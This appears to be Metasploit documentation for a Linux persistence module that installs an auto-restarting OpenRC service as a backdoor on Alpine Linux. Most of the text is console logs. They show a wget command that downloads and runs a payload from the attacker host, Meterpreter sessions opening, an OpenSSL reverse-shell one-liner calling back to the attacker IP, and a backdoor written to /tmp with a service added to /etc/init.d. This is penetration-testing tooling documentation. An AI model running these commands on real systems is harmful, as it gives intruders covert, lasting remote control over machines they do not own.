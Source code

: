 ## Vulnerable Application

This module will create a service on the box via OpenRC, and mark it for auto-restart.
We need enough access to write service files and potentially restart services.

Verified against alpine 3.21.2

## Verification Steps

1. Exploit a box and get a **root** session
2. `use exploit/linux/persistence/init_openrc `
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

### SERVICE

The name of the service to create.  If not chosen, a random one is created.

### PAYLOAD_NAME

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

## Scenarios

### Alpine Linux 3.21.2

Of note, the default install of Alpine doesn't have `curl`, or `bash`. The `OpenSSL` payload was confirmed working though

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO xK7yCqmS --no-check-certificate http://111.111.1.111:8181/l; chmod +x xK7yCqmS; ./xK7yCqmS& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:33954) at 2025-02-09 09:31:16 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/root) > getuid
Server username: root
(Meterpreter 1)(/root) > sysinfo
Computer     : alpine3.21.2
OS           :  (Linux 6.12.12-0-virt)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/root) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_openrc 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > set payload payload/cmd/unix/reverse_openssl
payload => cmd/unix/reverse_openssl
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_openrc) > exploit
[+] sh -c '(sleep 4296|openssl s_client -quiet -connect 111.111.1.111:4444|while : ; do sh && break; done 2>&1|openssl s_client -quiet -connect 111.111.1.111:4444 >/dev/null 2>&1 &)'
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_openrc) > 
[*] Started reverse double SSL handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /tmp/ is writable and openrc based
[*] Writing backdoor to /tmp//rljkrbglMY
[*] Writing service: /etc/init.d/GpdAgZVBGWq
[*] Writing '/etc/init.d/GpdAgZVBGWq' (141 bytes) ...
[*] Enabling service
[+] Starting service
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/alpine3.21.2_20250209.3159/alpine3.21.2_20250209.3159.rc
[*] Command: echo duVbKHsRwQ5D05J7;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "duVbKHsRwQ5D05J7\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (111.111.1.111:4444 -> 222.222.2.222:43560) at 2025-02-09 09:32:07 -0500

```